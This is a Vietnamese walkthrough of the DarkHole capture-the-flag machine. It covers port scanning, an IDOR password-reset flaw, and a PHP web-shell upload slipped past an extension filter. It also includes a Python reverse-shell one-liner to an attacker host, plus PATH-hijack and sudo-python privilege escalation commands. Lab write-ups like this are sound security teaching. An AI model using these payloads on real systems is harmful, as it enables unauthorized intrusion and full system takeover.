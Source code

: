 ## Step 1
Dùng netdiscover để quét ip của máy victim ->192.168.77.251

![image](https://user-images.githubusercontent.com/97771705/224999146-d497a7b0-aa8c-44f6-afe7-c85b530bd6be.png)

Dùng nmap để quét các port tồn tại

![image](https://user-images.githubusercontent.com/97771705/224999373-f0a6423c-cfef-4f3c-8a66-f9a8722a765d.png)

Truy cập vào web darkhole

![image](https://user-images.githubusercontent.com/97771705/224999560-99cd293f-10cf-49ee-843a-a0a54dacaf31.png)

Sử dụng dirsearch, tìm thấy khá nhiều trang thú vị

![image](https://user-images.githubusercontent.com/97771705/225000326-d0af62cb-bf0d-4e34-82d0-019fa00e48e1.png)

Trang config có database.php!! -> truy cập thử nhưng không được :(

![image](https://user-images.githubusercontent.com/97771705/225001082-87b52dc9-9324-49e6-90b7-c5d8c384e3a9.png)

Quay lại trang register và login. Thử IDOR nhưng đã bị chặn

![image](https://user-images.githubusercontent.com/97771705/225001864-2588ea8b-0426-4e95-9922-5c632c07a6cb.png)

![image](https://user-images.githubusercontent.com/97771705/225001912-6d662cb8-a628-4339-beef-5d0f605ec881.png)

Thử change password. Tại burp sửa đổi sang id = 1 vẫn thành công

![image](https://user-images.githubusercontent.com/97771705/225002475-75014042-364e-436e-a72c-282b22621f71.png)

Đoán id=1 chính là admin, đăng nhập thử admin/456 -> vào được trang admin

![image](https://user-images.githubusercontent.com/97771705/225002725-e7d84d51-df93-4dcd-8154-92d8946a66c1.png)

## Step 2
Chức năng upload file chỉ cho phép upload định dạng jpg, png, gif

![image](https://user-images.githubusercontent.com/97771705/225003170-d488cebb-dd45-455f-8528-49504a606f44.png)

Tạo 1 file simple backdoor như sau 
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Lưu nó lại với tên backdoor.txt

Thử upload file và nhờ burp sửa đuôi sang php4,php5.... -> chỉ có đuôi phtml là có thể thực thi được php 

![image](https://user-images.githubusercontent.com/97771705/225006690-595521b6-c1bd-4982-8377-65e21d6ad5f9.png)

Ngoài ra file .phar cũng xài được :)

![image](https://user-images.githubusercontent.com/97771705/225007577-ea4ea1e5-0806-427f-a501-e3026a6ab651.png)

Bắt đầu reverse shell : Sử dụng payload kiếm được trên https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

> python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.77.128",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

Máy parrot nhập command nc -nlvp 4444, sau đó nhaapm reverse shell trên lên url

![image](https://user-images.githubusercontent.com/97771705/225012793-9b45c432-dc42-4734-a754-8b7606677afd.png)


![image](https://user-images.githubusercontent.com/97771705/225012728-786a9ddf-160b-40e5-b089-e14d2d70cdf4.png)

Kết quả: 

![image](https://user-images.githubusercontent.com/97771705/225013005-e82b7184-424c-4aaa-a84b-02c342d90d31.png)

![image](https://user-images.githubusercontent.com/97771705/225692756-136d2f24-a5e0-42a9-a03e-2c3ea2d2abef.png)

Vào thư mục john

![image](https://user-images.githubusercontent.com/97771705/225692527-af3ad033-cce8-41e5-926c-e11564a292a2.png)

Vào thư mục .ssh, không cho ta đọc id_rsa

![image](https://user-images.githubusercontent.com/97771705/225693957-356deb89-fc99-4e11-af7b-51b3c21c5064.png)

Để ý thấy rằng file toto có set quyền SUID, thực thi file này thì ta thấy chương trình run command id với userid là 1001(john), tức là chương trình chạy command id với quyền của john

`SUID là viết tắt của Set User ID, là một thuộc tính trên các tập tin trên hệ thống Linux/Unix. Khi một tập tin được đặt thuộc tính SUID, nó được thiết lập để chạy với đặc quyền của chủ sở hữu của tập tin đó thay vì với đặc quyền của người sử dụng hiện tại.`

![image](https://user-images.githubusercontent.com/97771705/225694430-92798b9e-d0a0-4a55-83c1-db75aa299fd8.png)

Ta ghi /bin/bash vào file id tự tạo ở tmp và chèn thư mục tmp lên đầu $PATH. Khi thực thi 1 command trong Linux, hệ thống sẽ tìm kiếm lệnh trong các đường dẫn được khai báo trong biến môi trường PATH, theo thứ tự từ trái sang phải. Nếu tìm thấy lệnh ở nhiều đường dẫn trong biến môi trường PATH thì đường dẫn nào tìm thấy trước từ trái sang phải sẽ được ưu tiên hơn.

> echo '/bin/bash' > /tmp/id; chmod +x /tmp/id; export PATH=/tmp:$PATH

Flag đầu :)

![image](https://user-images.githubusercontent.com/97771705/225697086-107a6060-f30b-4933-ab69-546d93d8afe9.png)

## Step 3
Trong folder john còn 1 file password. Dùng  lệnh sudo -l để kiểm tra danh sách các quyền hạn mà user có thể thực thi bằng sudo trên hệ thống

![image](https://user-images.githubusercontent.com/97771705/225698221-caced74f-a931-4d3d-aa69-96854154a3aa.png)

Có thể thực thi file python3 bằng quyền root :) . Hơn nữa với file file.py ta có quyền write :)

Write vào file rồi run là xong rồi

> echo 'import os;os.system("/bin/bash")' > file.py

> sudo /usr/bin/python3 /home/john/file.py

![image](https://user-images.githubusercontent.com/97771705/225699477-b8795e11-45a7-4538-8df9-acf17067118c.png)




